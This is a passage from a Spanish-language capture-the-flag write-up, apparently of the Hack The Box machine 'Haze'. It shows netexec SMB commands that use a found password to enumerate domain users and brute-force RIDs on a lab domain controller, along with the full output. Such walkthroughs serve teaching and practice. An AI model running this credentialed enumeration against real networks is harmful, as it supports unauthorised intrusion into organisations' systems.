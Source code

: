 Si enumeramos a los usuarios del sistema y hac-

```bash
❯ nxc smb haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --users
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                         
SMB         10.10.11.61     445    DC01             paul.taylor                   2025-06-27 06:51:16 0        
SMB         10.10.11.61     445    DC01             [*] Enumerated 1 local users: HAZE
```

Uh... parece que no podemos ver otros usuarios. Pero si probamos a hacer fuerza bruta por el RID

```bash
❯ nxc smb haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute 10000
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB         10.10.11.61     445    DC01             501: HAZE\Guest (SidTypeUser)
SMB         10.10.11.61     445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB         10.10.11.61     445    DC01             512: HAZE\Domain Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB         10.10.11.61     445    DC01             514: HAZE\Domain Guests (SidTypeGroup)
SMB         10.10.11.61     445    DC01             515: HAZE\Domain Computers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             516: HAZE\Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             517: HAZE\Cert Publishers (SidTypeAlias)
SMB         10.10.11.61     445    DC01             518: HAZE\Schema Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             519: HAZE\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             520: HAZE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.61     445    DC01             521: HAZE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             522: HAZE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             525: HAZE\Protected Users (SidTypeGroup)
SMB         10.10.11.61     445    DC01             526: HAZE\Key Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             527: HAZE\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             553: HAZE\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.61     445    DC01             571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.61     445    DC01             572: HAZE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.61     445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB         10.10.11.61     445    DC01             1101: HAZE\DnsAdmins (SidTypeAlias)
SMB         10.10.11.61     445    DC01             1102: HAZE\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.10.11.61     445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.10.11.61     445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.10.11.61     445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.10.11.61     445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.10.11.61     445    DC01             1112: HAZE\Support_Services (SidTypeGroup)
```
